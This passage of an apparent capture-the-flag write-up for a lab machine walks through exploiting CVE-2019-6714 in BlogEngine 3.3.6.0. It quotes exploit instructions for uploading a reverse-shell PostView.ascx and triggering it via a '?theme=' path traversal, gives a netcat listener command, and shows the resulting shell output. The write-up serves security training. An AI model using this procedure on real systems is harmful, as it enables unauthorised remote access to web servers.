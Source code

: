 Answer: `3.3.6.0`

## #3.2 Use the exploit database archive to find an exploit to gain a reverse shell on this system. What is the CVE?

*Hint: Look on the exploit database page.*

Googling the terms `vulnerability blogengine  3.3.6.0` leads to https://www.exploit-db.com/exploits/46353 which is about `CVE-2019-6714`.

Let's download the [exploit](https://www.exploit-db.com/raw/46353). Read and follow the instructions:

~~~
Attack:

First, we set the TcpClient address and port within the method below to 
our attack host, who has a reverse tcp listener waiting for a connection.

Next, we upload this file through the file manager.  In the current (3.3.6)
version of BlogEngine, this is done by editing a post and clicking on the 
icon that looks like an open file in the toolbar.  Note that this file must
be uploaded as PostView.ascx. Once uploaded, the file will be in the
/App_Data/files directory off of the document root. The admin page that
allows upload is:

http://10.10.10.10/admin/app/editor/editpost.cshtml

Finally, the vulnerability is triggered by accessing the base URL for the 
blog with a theme override specified like so:

http://10.10.10.10/?theme=../../App_Data/files
~~~

Let's follow the instructions:

1. Start by modifying the script so that we report the correct value for IP and port.
2. Rename your script as `PostView.ascx`
3. Go to posts (http://10.10.79.198/admin/#/content/posts) and click on "Welcome to HackPark" to edit this post
4. From the edit bar on top of the post, click on the "File Manager" icon
5. Click on the "+ UPLOAD" button and upload the `PostView.ascx` script
6. Close the file manager and click on "Save"
7. Now, open your listener (`rlwrap nc -nlvp 1234`)
8. Go to http://10.10.79.198/?theme=../../App_Data/files

Check your listener, you should now have a reverse shell.

## #3.3 Using the public exploit, gain initial access to the server. Who is the webserver running as?

~~~
$ rlwrap nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.79.198.
Ncat: Connection from 10.10.79.198:56475.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
~~~
